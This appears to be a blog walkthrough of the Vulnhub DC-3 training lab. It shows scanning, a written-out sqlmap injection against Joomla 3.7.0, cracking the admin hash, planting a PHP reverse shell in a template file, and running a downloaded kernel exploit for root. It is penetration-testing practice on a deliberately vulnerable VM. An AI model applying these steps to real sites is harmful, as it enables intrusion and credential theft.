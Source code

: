 ```yaml
---
layout: PostSimple
date: 2019-11-16
title:     "Vulnhub - DC 3"
tags: ['joomla','easy','php','kernel_exploit','sqli']
categories: Vulnhub
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/1.1.png)
We are going to pwn DC 3 by DCAU7 from Vulnhub


## Description
>DC-3 is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.
As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I won't give you the answer, instead, I'll give you an idea about how to move forward.
For those with experience doing CTF and Boot2Root challenges, this probably won't take you long at all (in fact, it could take you less than 20 minutes easily).
If that's the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.


Download Link: [https://www.vulnhub.com/entry/dc-3,312/](https://www.vulnhub.com/entry/dc-3,312/)


Lets Begin with our Initial Scan

## Nmap Scan Results

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Home
MAC Address: 08:00:27:BE:4C:95 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

```

Looks like only HTTP port is open so lets start our Gobuster

## Gobuster Result

```
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.5
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/25 19:06:03 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.hta (Status: 403)
/administrator (Status: 301)
/.htpasswd (Status: 403)
/cache (Status: 301)
/bin (Status: 301)
/components (Status: 301)
/images (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/index.php (Status: 200)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/server-status (Status: 403)
/templates (Status: 301)
/tmp (Status: 301)
===============================================================
2019/11/25 19:06:05 Finished
===============================================================
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/1.png)

It is ```JoomlaCMS``` so i tried using [droopescan](https://github.com/droope/droopescan) to find any vulnerable plugins or versions
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/2.png)

## Finding the version is vulnerable

We can also use Metasploit to find Joomla's Version
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/3.png)

> Joomla Version 3.7.0

I found there is an SQL INjection for this version.

>https://www.exploit-db.com/exploits/42033

### SQL Injection

``` sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] ```

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/4.png)

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/5.png)

It shows 5 Databases so lets enumerate the database by using the same command.[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/6.png)

>-D = To denote which database

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/7.png)

It looks like ``#_users`` is interesting

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/8.png)

```

-T = Used to denote which table
-C = What are the things we need from the table
--dump = To display all

```
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/9.png)

We got a hash for admin so lets try it with john 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/10.png)

It Shows the password is ``snoopy``

Lets Try login 

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/11.png)

## Getting Shell 

We need to get reverse shell since there is no other ports running we need to get reverse shell from the webpage

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/12.png)

Templates -> Templates -> Beez3 Details and Files -> Index.php
I added my PHP Reverse Shell.

Once added I clicked on Template Preview…
and I got the shell
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/13.png)

## Privilege Escalation

It looks like Kernel is outdated[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/14.png)

Found there is an exploit from searchsploit

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/15.png)


> https://www.exploit-db.com/exploits/39772

> https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/39772.zip 


I uploaded the code into the machine and did according to the instruction.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/16.png)

First ``./compile.sh``
And ``./doubleput``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/17.png)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/18.png)

``Flag``

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/dc3/19.png)

Got ROOT!!









